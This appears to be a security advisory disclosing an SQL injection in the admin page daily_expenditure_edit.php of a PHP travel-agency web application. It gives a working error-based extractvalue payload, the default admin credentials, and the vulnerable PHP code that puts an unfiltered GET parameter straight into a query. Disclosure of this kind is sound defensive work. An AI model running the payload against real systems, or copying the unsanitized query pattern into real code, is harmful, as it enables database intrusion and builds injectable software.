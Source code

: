 # [Online Travel Agency System-SQL Injection-daily_expenditure_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/daily_expenditure_edit.php?id=1`    

**[Vulnerability Location]:** Travel/admin/daily_expenditure_edit.php

**[Vulnerability Test]:**

1. payload:`id=1%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))`

   ![](../../img/20230428164149.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/daily_expenditure_edit.php

```php
<?php
$sql="select*from daily_expenditure where id=$_GET[id]";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$id =$row["id"];
	$voucher_no=$row["voucher_no"];
	$title=$row["title"];
	$description=$row["description"];
	$amout=$row["amount"];
	$date=$row["date"];
	$inserted_by=$row["inserted_by"];	 	 	 	 	
}
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

